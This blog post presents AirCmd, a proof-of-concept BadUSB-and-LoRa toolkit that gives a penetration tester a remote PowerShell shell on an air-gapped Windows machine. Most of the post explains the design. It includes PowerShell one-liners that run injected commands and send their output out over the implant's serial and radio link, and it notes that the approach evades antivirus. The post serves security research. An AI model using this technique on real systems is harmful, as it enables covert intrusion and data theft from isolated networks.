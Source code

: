 ```yaml
---
title: "A Proof of Concept for Setting Up a Networkless Shell"
date: 2023-10-14 06:40:55 +0800
tags: [AirCmd, Proof of Concept (PoC), networkless, shell]
---
```


A shell, in computing, refers to a user interface that provides access to an operating system's services. It acts as an intermediary between the user and the operating system, allowing the user to execute commands, run scripts, and manage files and processes. Shells can be graphical (GUI) or command-line (CLI) based, with the latter being text-driven, where users input commands in text form and receive text responses. In a cybersecurity context, a shell refers to a command interface that attackers establish on a compromised system to remotely execute commands and control the system, often achieved through scripts or programs designed to exploit vulnerabilities in the target system. When discussing shells in the context of network security, two common types are mentioned: bind shells and reverse shells.

Establishing a shell (both bind shell and reverse shell) necessitates a network connection between the attacker's system and the target system. This network connection enables the transmission of commands and the retrieval of responses, making control and interaction with the remote system possible. However, in the case of air-gapped networks and isolated computing systems, establishing such a network connection is extremely challenging, almost reaching the realm of impossibility, due to the inherent design of these setups to remain disconnected from other networks as a security measure. The fundamental requirement of a network connection for establishing a shell presents a nearly insurmountable hurdle in the context of air-gapped networks and isolated computing systems.

## AirCmd

AirCmd (pronounced "air command") was conceived as a set of hardware and software toolkits that enable a penetration tester to set up a connectionless, networkless shell targeting an air-gapped network/isolated computing system. AirCmd allows a penetration tester to enjoy a bidirectional, shell-like command and control interface over LoRa. Given the long-range capabilities of LoRa, the penetration tester could be as far away as 5 km in urban areas, and up to 15 kilometers or more in rural areas (whithin line of sight) from the target. AirCmd doesn't introduce any malware or malicious code into the target system, allowing it to evade standard anti-virus software and operate stealthily. AirCmd essentially operates as a "remote keyboard", typing and executing commands on our behalf, albeit from a considerable distance.

This proof of concept was conceived with several assumptions in mind:

1. You have physical access to a computing device within the air-gapped network or isolated computing system.
2. The computing device has a USB port that allows for the connection of peripherals via USB.
3. The facility housing the air-gapped network or isolated computing system is not radio-hardened.
4. PowerShell is available and usable on the target device.

AirCmd is designed to allow you to input commands on your device seamlessly. Once a command is entered, the system promptly transmits it via LoRa to the transceiver hardware connected to the USB port of the target machine. The hardware then efficiently executes the transmitted command through PowerShell on the target machine. Following this execution, the output generated from the command is captured and swiftly transmitted back over LoRa to the transceiver hardware on your device. This mechanism empowers AirCmd to facilitate the remote execution of commands without the need for a network connection, thereby providing a secure, isolated layer of control over the targeted machine.

![img](/assets/img/aircmd-arch.png)
_Process flow of AirCmd Ax and Tx_

AirCmd consists of two segments: the attacker side, dubbed AirCmd Ax, and the target side, referred to as AirCmd Tx. The former houses two primary components: the AirCmd Shell and the AirCmd Ax transceiver. For this proof of concept, I utilized the LILYGO® LoRa32 V2.1_1.6. On the other hand, AirCmd Tx includes an AirCmd Tx transceiver, which integrates a Diymore BEETLE BadUSB Micro ATMEGA32U4-AU Development Expansion Module Board alongside an RFM95W-915S2 LoRa module. This segment also employs a PowerShell interface, which is instrumental for port sensing and command execution.

### AirCmd Shell

![img](/assets/img/aircmd-shell.png)
_The AirCmd Shell_

The AirCmd Shell is essentially a Python script that facilitates a connection for the attacker to the AirCmd Ax transceiver via USB serial. Upon issuing a command within the AirCmd Shell, the script encodes the command into UTF-8 format and transmits the data to the USB port to which the AirCmd Ax transceiver is connected. It then awaits a response from the AirCmd Ax transceiver, which is triggered upon receiving a transmission from the AirCmd Tx transceiver.

### AirCmd Ax Transceiver

![img](/assets/img/aircmd-hardware.png)
_AirCmd Ax and Tx Transceiver Hardware_

The AirCmd Ax transceiver monitors the USB port it's connected to for serial data. Upon receiving the data, it transmits it to the AirCmd Tx transceiver via LoRa. Following this, it awaits a response from the AirCmd Tx transceiver. Once a response is received, it relays this data back to the AirCmd Shell via the serial connection.

### AirCmd Tx Transceiver

The AirCmd Tx transceiver is the most crucial component of AirCmd. It acts as a gateway for receiving the payload, injecting it into the target via PowerShell, and retrieving the data from the interface before transmitting it to the AirCmd Ax transceiver. 

Injecting and executing a PowerShell payload on the target device is straightforward and can be easily accomplished using Arduino's Keyboard library. However, our objective extends beyond mere execution; we aim to execute the command and retrieve its output. For instance, if we wish to view the contents of a file, merely executing the command wouldn't suffice. Although the command will display the file's contents, there isn't a direct method to view these contents via the AirCmd Shell. Therefore, we employ a series of PowerShell commands to execute the original command, pipe its output, consolidate the multiple lines of output into a single line separated by a designated separator, and then transmit this data to the serial port to which our AirCmd Tx transceiver is connected.

```powershell
$lines = [CMD] | % { $_.ToString() }; $joinedLines = $lines -join '?'; $port = new-Object System.IO.Ports.SerialPort [PORT], 9600, None, 8, One; $port.Open(); $port.WriteLine($joinedLines); $port.Close();
```

The command `[CMD]` is issued within the AirCmd Shell and is set to execute, with its output being directed to the serial `[PORT]` to which the AirCmd Tx transceiver is connected. However, a question arises: how does the AirCmd Tx transceiver discern the specific `[PORT]` to which it's connected? To address this, we employ a series of PowerShell commands designed for port sensing.

```powershell
Get-WmiObject -Class Win32_SerialPort | % {if ($_.Description -match 'Arduino') {iex "mode $($_.DeviceID): baud=9600 parity=n data=8 stop=1"; $port = new-Object System.IO.Ports.SerialPort $_.DeviceID,9600,None,8,One; $port.Open(); $port.WriteLine($_.DeviceID); $port.Close()}}
```

Therefore, the moment the AirCmd Tx transceiver is connected to the target device, it opens a PowerShell window, executes the port sensing commands, and stores the port information in memory. This stored information can later be used to redirect and write back the output of the PowerShell commands that were executed.

### PowerShell

The PowerShell program executed by the AirCmd Tx transceiver stands as a highly versatile and powerful tool, serving a multitude of purposes across system administration, automation, and scripting tasks. An attacker may leverage PowerShell to bypass security measures like antivirus software due to its inherent trust within Windows environments. Its capability to execute code and scripts can be used to run malicious code or establish persistence on a system. Moreover, the extensive system access it offers can be exploited to extract sensitive data or manipulate system settings. The attacker might also harness PowerShell's remote management features to control the compromised system or spread malware across a network. The combination of PowerShell's versatility and power, along with its legitimate status, renders it a notable vector for attackers seeking to exploit vulnerabilities and exfiltrate data from the target system.

## Demo

{% include embed/youtube.html id='lDhl9ivTlL0' %}

The presented proof of concept has its limitations, reflecting certain imperfections inherent in the implementation phase. A more refined design could potentially address these limitations. One notable issue is AirCmd's susceptibility to the constraints posed by LoRa technology, particularly in terms of data packet size and throughput, given its reliance on LoRa for data transfers. However, it's crucial to remember the primary objective behind the creation of AirCmd: to demonstrate the feasibility of establishing networkless shells, and to shed light on how air-gapped systems might be compromised. Through this endeavor, I aimed to provide a tangible illustration of how these security challenges can manifest, while also offering a platform for exploring potential solutions or further investigations into overcoming the identified limitations.

The source code for this proof of concept is available [here](https://github.com/Malware-Mystic/AirCmd/).